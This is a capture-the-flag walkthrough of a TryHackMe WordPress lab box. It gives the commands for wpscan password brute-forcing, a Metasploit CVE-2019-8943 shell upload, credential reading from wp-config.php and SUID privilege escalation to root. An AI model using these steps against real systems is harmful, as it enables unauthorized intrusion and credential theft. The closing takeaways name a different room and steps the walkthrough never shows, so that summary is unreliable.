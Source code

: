 - **Difficulty: Medium**
- **Target IP: 10.10.201.38**
---
### 1. Reconnaissance

**`nmap` scan:**

 - `nmap -O -sV 10.10.201.38`

**Results:**

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### 2. Web Enumeration

#### Access via hostname:

- Target uses virtual hosts, so need to map `<Target_IP>` to `blog.thm` in `/etc/hosts`

- Navigating to `http://blog.thm` presents a blog made using `wordpress`

#### Usernames Discovered:

- After some searching around the blog, we find it is authored by `Billy Joel` with username `bjoel` from the URL `blog.thm/author/bjoel`

- Furthermore, Billy's mom is also a user. `Karen Wheeler` with username `kwheel` found in the URL `blog.thm/author/kwheel`

#### `wpscan`

- Nothing too interesting from `wpscan --url blog.thm --enumerate vp`

- Next we try brute-forcing passwords for both `bjoel` and `kwheel` using `rockyou.txt`

```bash
wpscan --url blog.thm -U bjoel -P /usr/share/wordlists/rockyou.txt
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt
```

- We find user `kwheel` password and login using `blog.thm/wp-login.php`

### 3. Exploit

- After a little recon, we find some corrupted image files within the media section

- Searched on [exploit-db](https://www.exploit-db.com) for relevant WordPress vulnerabilites

	- `WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)` looks promising
	- This is also known as `CVE: 2019-8943, 2019-8942` 

#### `metasploit`

- Hop onto `msfconsole` and search for and use `cve-2019-8943` 

- `show options` lets us see that the options `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` are required. (Use the login creds we brute forced)

### 4. Initial Access

#### `meterpreter` Shell Established

- Running `getuid` returns:

```bash
Server username: www-data
```

- Run the `shell` command in `meterpreter`  session to create a shell

- Upgrade the shell with python:

```python
python -c "import pty;pty.spawn ('/bin/bash')"
```

- Using `ls` shows us a file `wp-config.php` that we can check for credentials

```bash
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', '[REDACTED]');
```

### 5. Privilege Escalation

- Find commands with the `SUID` bit set:

```bash
find / -perm -4000 2>/dev/null
```

- `find /` — searches starting from the root directory (`/`) recursively through all files and directories

- `-perm -4000` — this tells `find` to look for files with the **SUID** bit set. The `4000` is the octal permission for the SUID bit

- `2>/dev/null` — redirects error messages (like "Permission denied") to `/dev/null` so they don’t clutter your output

- `/usr/sbin/checker` is our key here

- `file /usr/sbin/checker` returns:

```bash
setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6cdb17533a6e02b838336bfe9791b5d57e1e2eea, not stripped
```

- `ltrace /usr/sbin/checker` returns:

```bash
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

- This executable is checking the env variable to see if we are an admin or not

#### Exploiting `checker` 

- We can try running the binary after setting the environment variable:

```bash
export admin=1
/usr/sbin/checker
```

- This grants us `root` !

### 6. Post Exploitation

- First order of business is to find the `user.txt` flag

- Check the default home directory `/home/bjoel`, as it is commonly contains the `user.txt` flag 

- There is a `user.txt` in here, however:

```text
You won't find what you're looking for here.
```

- Use `find / -name user.txt` to locate the actual `user.txt` flag:

```bash
/home/bjoel/user.txt
/media/usb/user.txt <- The correct path
```

- Lastly, `cat` the `root.txt` file:

```bash
cat /root/root.txt
```


--- 

#### Final Takeaways - TryHackMe: Lookup

- **Thorough enumeration** is key — subdomains, author pages, and usernames can all provide footholds.

- The `wpscan` tool was instrumental for discovering usernames and plugin vulnerabilities.

- Brute-forcing `wp-login.php` with a good wordlist (like `rockyou.txt`) + `hydra` cracked a real user password.

- File upload access via WordPress dashboard allowed a **reverse shell** through a malicious PHP payload.

- **`meterpreter` > `shell` > upgraded with Python pseudo-terminal** for improved interactivity.

- Access to `wp-config.php` revealed MySQL database credentials — useful for lateral movement or full application compromise.

- `find / -perm -4000 2>/dev/null` helped identify the **SUID binary** `/usr/sbin/checker` for privilege escalation.

- `ltrace` exposed that the binary was checking for an `admin` environment variable.

	- Set the variable with `export admin=1` → rerunning the binary → escalated to **root**.

---

### 🧰 Tool Reference Table

| Tool          | Purpose                                                                                  |
|---------------|------------------------------------------------------------------------------------------|
| `nmap`        | Network scanning and service enumeration                                                 |
| `wpscan`      | WordPress vulnerability and user enumeration; brute-force login attempts                 |
| `rockyou.txt` | Common password wordlist used for brute-forcing credentials                              |
| `msfconsole` / `Metasploit` | Exploitation framework used to run CVE-2019-8943 module                    |
| `meterpreter` | Post-exploitation shell provided by Metasploit                                           |
| `ltrace`      | Traces library calls to inspect how a binary interacts with its environment              |
| `find`        | Used to locate files (e.g., with SUID bit or named `user.txt`)                           |
| `export`      | Sets environment variables (used to escalate privileges with `checker`)                  |
| `python`      | Used to upgrade shell for better TTY handling                                            |

[[CTF Notes]]



